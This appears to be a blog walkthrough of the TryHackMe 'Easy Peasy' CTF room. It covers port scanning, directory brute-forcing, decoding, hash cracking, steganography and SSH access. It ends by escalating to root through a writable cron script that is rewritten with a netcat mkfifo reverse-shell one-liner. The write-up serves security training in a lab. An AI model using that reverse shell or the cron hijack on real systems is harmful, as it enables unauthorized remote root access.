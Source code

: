 ```yaml
---
title: "Try Hack Me: Easy Peasy Walkthrough"
classes: wide
header:
  teaser: /assets/images/Covers/easy_peasy.jpg
ribbon:   DodgerBlue
description: "We will walkthrough 'Easy Peasy' the challenge provided by THM"
categories:
  - Write-ups
toc: true
---
```


this is my walk through [Easy Peasy](https://tryhackme.com/room/easypeasyctf) room on try hack me.

there is a common methodology to walk through any CTF challenge:

1. Enumeration
1. Exploitation
1. Privilege Escalation

# Outlines

How to deal with decrypted text?

1. try to decrypt it with Cyber Chef
1. if can’t so it’s a hash
1. try to crack the hash with with crack station or hashes
1. search with the hash in google
1. use john to crack the hash.

How to analyse photos?

1. use strings
1. use steghide extract -sf image
1. use exiftool

# Enumeration

in this phase we try to discover (open ports, services, and technologies of the target).

we use NMAP to complete this phase.

`nmap -sV -Pn 10.10.242.227 -sC -p- -T4 --min-rate 5000`

- **-Pn**: to avoid pinging the target before ping scan.
- **-sC**: to run basic scripts to enumerate the target.
- **-sV**: for version scan.
- **-p-**: to test all ports.
- **-T4**: to set scan set fast
- **--min-rate 5000**: to set minimum request per second to 5000.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*yoASQZefBcEewTcCckJTJQ.png)

you can walk through these steps to test any web page in CTFs:

1. dig source code for comments contains important information or links in `href` tag.
1. open `robots.txt` if available.
1. use `gobuster` to brute force directories.
1. dig Java script files for any vulnerability.
1. search in parameters for any vulnerability

by following previous steps you won’t find any info in the source code or in the `robots.txt`.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Wq4FrKuWZYUZeKeSJQbO8w.png)

for each web page follow previous steps you will find

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8Zu1eALcQRrmFrWdm0sPPA.png)

you will find this in the source code of `/hidden/whatever/`:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*V5JwZKjENQWElFiYogfcQg.png)

i thing it’s an encoded text, so i will use [cyberchef](https://gchq.github.io/CyberChef/) to decode it .

by using magic method in cyberchef you will get that it’s base64 encoded. decode it you will get the first flag.

if you tried the previous steps on that page you won’t find anything, so let’s go through other NMAP results.

after navigate to the second web server you will find apache 2 default web page.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*KprlxekPVwNqaRHm72T5rg.png)

we will follow the same steps.

after first step:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*wnAKKhK4v6KzzdJSeqDK8g.png)

it’s look like hash so i will use crackstation or hashes to crack it but it doesn’t work.

i searched with the hash and i find it.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*_BbwpkR_zg2HiBU5Cv9VmQ.png)

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*AvLUSaMZsEYPt_EWHO0Avg.png)

it tells you that encoded with ba…. so we will try all base formates to encode it. i found that it’s base62 encoded. it’s a name of hiden directory.

navigate to the hidden directory and follow our steps.

after the first step:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*YvDwfysK05oFN-6LMLzJgA.png)

i tried to detect the encoding algorithm with Cyber Chef but i can’t so i guess this is a hash.

we will follow the steps i mentioned in the header.

finally i downloaded the photo and try to analyse it.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*-6UAUdg-RpM9aHEN2FWAyQ.png)

i used `steghide` to extract the image.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*6peEYsEHJ3ebmpT7L8XLeQ.png)

i used the password we just cracked.

after viewing the `secrettext.txt` file i found username and password in binary format so i decrypt it and signed in to SSH.

after i loged , i found user flag but it said that may be rotated so i used ROT encrypt to decrypt the flag.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ghrG_jDJ8EaC6VHZs973GA.png)

to get root flag i view cron tabs :

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*sjQdD2fED4ChqNrgCjvoqg.png)

that tells you he will go to `/var/www/` directory and run a script as a root.

i listed the script file and i found that i can edit it

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*mrxv62MHH55MYWNf_n9W-w.png)

i will make this script to reverse shell to my machine.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> <port> >/tmp/f
```

this make the target reverse shell to me as a root

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*b5TuTu9mN7uziizGXueN_Q.png)

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ty9wLdBgQ_RkeBqR7JZ_ew.png)

i `cat` the root flag.

Congratulation, but don’t forget to terminate the machine.

hope this help you.